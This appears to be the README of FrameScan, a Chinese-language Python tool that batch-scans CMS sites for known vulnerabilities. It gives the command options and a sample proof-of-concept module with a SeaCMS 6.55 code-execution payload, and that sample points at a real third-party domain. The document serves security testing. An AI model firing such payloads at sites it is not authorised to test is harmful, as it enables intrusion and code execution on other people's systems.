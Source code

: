 # FrameScan

## 工具简介

FrameScan是一款python3编写的简易的cms漏洞检测框架，支持多种检测方式，支持大多数CMS，可以自定义CMS类型及自行编写POC。旨在帮助有安全经验的安全工程师对已知的应用快速发现漏洞。

## 支持平台

- Windows  

- Linux  

- MAC（请自测）

## 工具特点

- 单URL批量检测
- 单URL单漏洞检测
- 单URL指定CMS检测
- 多URL单漏洞检测
- 单URL单漏洞检测
- 单URL指定CMS检测

详细参数如下：

```
    -u          Url                      URL地址
    -f          Load urls file           文件路径
    -m          Use poc module           使用单个POC
    -c          Specify CMS              指定CMS类型
    -s          Search poc keywords      查找关键词漏洞
    -c          List CMS POC             列出指定CMS漏洞
    -l          List avalible pocs       列出所有POC
    -r          Reload POC               重新加载POC
    -h          Get help                 帮助信息
```


## 使用方法

下载项目

```python
git clone https://github.com/qianxiao996/FrameScan
```

安装依赖（不需要！）

```
脚本主要依赖于以下模块（无需安装）
import sys,os,re
from color import *
import sqlite3,requests
```

运行脚本

```
>python3 webcrack.py
     _____                         ____
    |  ___| __ __ _ _ __ ___   ___/ ___|  ___ __ _ _ __
    | |_ | '__/ _` | '_ ` _ \ / _ \___ \ / __/ _` | '_ \
    |  _|| | | (_| | | | | | |  __/___) | (_| (_| | | | |
    |_|  |_|  \__,_|_| |_| |_|\___|____/ \___\__,_|_| |_|

    Options:                          Code by qianxiao996
    -----------------------------------------------------
    -u          Url                      URL地址
    -f          Load urls file           文件路径
    -m          Use poc module           使用单个POC
    -c          Specify CMS              指定CMS类型
    -s          Search poc keywords      查找关键词漏洞
    -lc         List CMS POC             列出指定CMS漏洞
    -l          List avalible pocs       列出所有POC
    -r          Reload POC               重新加载POC
    -h          Get help                 帮助信息
    -----------------------------------------------------
    FrameScan  V1.0              Blog:blog.qianxiao996.cn
```

单URL批量检测

```
python3 FrameScan.py -u URL
```

单URL单漏洞检测（POC_METHOS可以用 -l、-s、-lc进行查询）

```
python3 FrameScan.py -u URL -m POC_METHOS
```

单URL指定CMS检测

```
python3 FrameScan.py -u URL -m POC_METHOS
```

多URL批量检测

```
python3 FrameScan.py -f 文件名
```

多URL单漏洞检测

```
python3 FrameScan.py -f 文件名  -m  POC_METHOS
```

多URL指定CMS检测

```
python3 FrameScan.py -f 文件名  -c  CMS类型
```

## 自定义POC模板

代码中采用自定义彩色输出，请尽量规范编写。脚本中为示例代码。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
'''
name: 漏洞名称（禁止换行）控制在30字以内
referer: 漏洞地址（禁止换行）未知请填unknown
author: 作者名
description: 漏洞描述 
'''
import sys
import requests
import warnings
sys.path.append('../../')
from color import *
#方法名称自定义
class seacms_655_code_exec:
    def __init__(self, url):
        self.url = url
    def run(self):
        #此处编辑检测代码
        #示例代码，请尽量使用彩色字体 printGreen、 printBlue、printYellow函数
        headers = {
            "User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"
        }
        payload = "searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/*"
        url_path = self.url + "/search.php?phpinfo();"
        try:
            result = requests.get(url_path, timeout=3,headers=headers, verify=False)
            if result.status_code == 200 and 'code' in result.text:
                printGreen("[+]Success:存在seacms 6.55 代码执行漏洞！\nPayload:\nURL:%s\nPOST:%s"%(url_path,payload))
                sys.exit(1)
            else:
                printBlue("[-]Info:不存在seacms 6.55 代码执行漏洞")
                sys.exit(1)
        except Exception as e:
            # print (e)
            printYellow("[-]Warning:"+self.__class__.__name__+" ==>可能不存在漏洞")
            sys.exit(1)

if __name__ == "__main__":
    #此处不会调用
    warnings.filterwarnings("ignore")
    testVuln = seacms_655_code_exec("http://baidu.com")
    testVuln.run()
```

## 鸣谢

POC多数来源于[<AngelSword>](https://github.com/Sch01ar/AngelSword)，部分为自己编写，欢迎投递POC

邮箱地址：qianxiao996@126.com

## 警告！

**请勿用于非法用途！否则自行承担一切后果**